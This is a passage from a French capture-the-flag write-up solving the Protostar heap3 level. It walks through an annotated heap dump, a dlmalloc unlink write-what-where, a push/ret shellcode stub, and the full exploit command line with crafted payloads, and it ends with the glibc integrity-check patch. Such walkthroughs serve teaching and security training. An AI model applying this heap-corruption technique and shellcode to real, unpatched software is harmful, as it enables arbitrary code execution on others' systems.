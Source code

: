 ```
0x804c000:      0x00000000      0x00000029      0x0804c028      0xcccccccc <- début de notre shellcode
0x804c010:      0xcccccccc      0x0804b11c      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x00000000      0x41414141      0x41414141      0x41414141 <- ici le 41 permet d'indiquer que le chunk du dessous est utilisé, on n'a pas besoin de mentir sur le reste
0x804c040:      0xffffffe0      0xfffffff0      0x41414141      0x41414141 <- chunk "suivant" de taille -16 qui ne sera pas fusionné, notez que malloc a modifié le bit de poids faible
0x804c050:      0xfffffff0      0xfffffff0      0x43434343      0x43434343 <- le chunk qui a été libéré
0x804c060:      0x43434343      0xffffffe1      0x0804b194      0x0804b194 <- le chunk "précédent" qui a amené à notre write-what-where
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
```

Le plus important dans tout ça c'est que cette fois pas de segfault mais un sigtrap : notre instruction `0xCC` (`int3`) a bien été exécutée.

Dernier point génant : notre shellcode va donc commencer à `0x804c00c` mais `malloc` écrase un DWORD 8 octets plus loin...

Si on avait un shellcode un peu long il faudrait qu'il fasse un `jmp` par dessus les 4 octets pour reprendre son exécution après mais ici on a seulement besoin de faire un `call winner`.

Malheureusement les instructions `call` et `jmp` sont relatives (l'opcode a besoin d'un offset). Pour s'éviter des calculs compliqués on peut simplement faire :

```nasm
push   0x8048864
ret
```

Ce qui revient à sauter sur `winner` :

```
user@protostar:/opt/protostar/bin$ ./heap3 `python -c 'print "AAAA\x68\x64\x88\x04\x08\xc3"'` `python -c 'print "A"*16 + "\xf1\xff\xff\xff\xf1\xff\xff\xff" + "A" * 8 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`
that wasn't too bad now, was it? @ 1674238714
```

Cette fois c'est la bonne !

Cette faille unlink a été patchée de cette manière :

```c
#define unlink(AV, P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);
    else {
        FD->bk = BK;
        BK->fd = FD;
```
